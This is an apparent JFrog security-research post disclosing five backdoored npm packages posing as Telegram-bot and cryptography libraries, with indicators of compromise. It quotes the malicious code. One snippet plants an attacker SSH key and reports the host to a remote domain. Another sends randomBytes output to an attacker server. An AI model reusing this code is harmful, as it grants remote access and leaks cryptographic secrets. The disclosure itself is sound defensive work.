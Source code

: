 ```yaml
---
excerpt: JFrog Security Research team foun five fake cryptograpy packages in npm contained backdoor code
title: Five Backdoored Cryptography Packages Operating Undetected for Six Months
date: "October 20, 2025"
description: "Andrey Polkovnychenko, JFrog Security Researcher"
tag: "Real Time Post"
img: /img/RealTimePostImage/post_thumbnail1.png
type: realTimePost
minutes: '1'

---
```


Our research team found a npm user jamestonytrump who published five malicious packages containing backdoors. One of them, the npm package “grammy-tools” masquerades as a legitimate library for Telegram bots. The malicious software adds a public key to `~/.ssh/authorized_keys` and transmits the username and external IP address to `grammy[.]validator[.]icu`. This action provides an attacker with complete control over the compromised system.

![](/img/RealTimePostImage/post/npm_backdoor.png)

```javascript
const publicKey = `ssh-rsa AAAAB3NzaC1yc2EAAAADAQ`
const username = os.userInfo().username;
const ipAddress = await getBotId();
const fullPublicKey = `${publicKey}`;
const sshDir = path.join(os.homedir(), '.ssh');
const authorizedKeysPath = path.join(sshDir, 'authorized_keys');
fs.writeFileSync(authorizedKeysPath, `${fullPublicKey}\n`, { mode: 0o600 });
https.get(`https://grammy.validator.icu/v1/check?ip=${ipAddress}&name=${username}&type=${types}`, (res1) => {   
res1.on('data', () => { });
});
```

The additional four packages: grammy-guards, crypter-validater, crypt-validater,   
node-crypto-validater follow the same logic of adding backdoor to the attacked system. Each of them mimics as cryptographic utility, exporting functions typical of legitimate crypto libraries:

```javascript

import * as crypto from "crypto";
export declare function validate(content: any): any;
export declare function createPrivateKey(key: crypto.PrivateKeyInput | string | Buffer | crypto.JsonWebKeyInput, callback?: any): any;
export declare function randomBytes(byretes: number, callback?: any): any;
export declare function checkPrime(value: crypto.LargeNumberLike, callback?: any): any;
```

At first glance, this appears to be a thin wrapper over Node’s built-in crypto module. The only difference it makes to the legitimate cryptographic library is the addition of a backdoor in one of the functions. The function randomBytes contains a code sending the entropy of the generated random values to an attacker-controlled server. The backdoor works differently, depending on the mode in which the original function was called. In blocking mode, it returns the result immediately, so applications receive randomness even as the attacker quietly captures it. But if the function was called in asynchronous mode with a callback, it replaces the result with the bytes returned by the server.

Either case is catastrophic because random entropy is the core of any cryptographic system. A leak of raw entropy makes any secret, private key, nonce, or other cryptographic data produced by the infected system compromised.  

```javascript
function check_validator(bytes, callback) {
   if (fetch('https://web3.validator.icu/v1/check', {
           method: 'POST',
           body: JSON.stringify({
               action: 'validator',
               content: bytes
           })
       }).then(res => {
      callback && res.json().then(res => {
      res.success ? callback(null, bytes):callback(res.message);
           });
       }) {
       return true;
   }
}

function randomBytes(size, callback) {
   const result = crypto.randomBytes(size).toString('hex');
   return check_validator(result, callback) ? result : null;
}
```

We reported these packages to the npm security team and added information about these packages to [JFrog Xray](http://jfrog.com/xray) to provide an added layer of security for our customers.

Check out the [JFrog Security Research](https://research.jfrog.com/) center for more information about the latest CVEs, vulnerabilities, and fixes to keep your software supply chain secure.

## IOC

Domain  
`web3[.]validator[.]icu`  
Packages

* grammy-tools \- XRAY-736302  
* grammy-guards XRAY-736301  
* crypter-validater XRAY-736304  
* crypt-validater XRAY-736300  
* node-crypto-validater XRAY-736303
